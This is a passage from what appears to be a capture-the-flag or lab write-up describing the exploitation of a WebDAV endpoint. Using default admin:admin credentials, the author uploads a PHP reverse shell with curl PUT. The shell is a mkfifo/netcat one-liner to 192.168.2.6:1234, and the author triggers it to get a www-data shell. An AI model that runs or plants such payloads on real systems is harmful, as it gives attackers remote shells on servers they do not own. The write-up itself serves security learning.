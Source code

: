 ## Exploitation

Given I can access `door.legacyhangtuah.com/webdav`, and I found the `admin:admin` credentials for basic auth, and I verify that I can upload PHP files with the PUT requests method, and the server runs the PHP file, then I perform a reverse shell to enumerate the server.

When I make a PUT request to upload a file called `rs.php`:
```shell
$ curl -X PUT door.legacyhangtuah.com/webdav/rs.php -u 'admin:admin' -d \
> '<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc \
> 192.168.2.6 1234 >/tmp/f"); ?>'
```
And I open a listener with the `nc` command:
```shell
$ nc -lvnp 1234
```
And I make a `GET` request to the `/webdav/rs.php` file:
```shell
$ curl door.legacyhangtuah.com/webdav/rs.php -u 'admin:admin'
```
Then I get the user's shell `www-data`:

![evidence](./static/09-put-reverseshell.png)

When I explore the files on the server, then I found a series of suspicious notes:
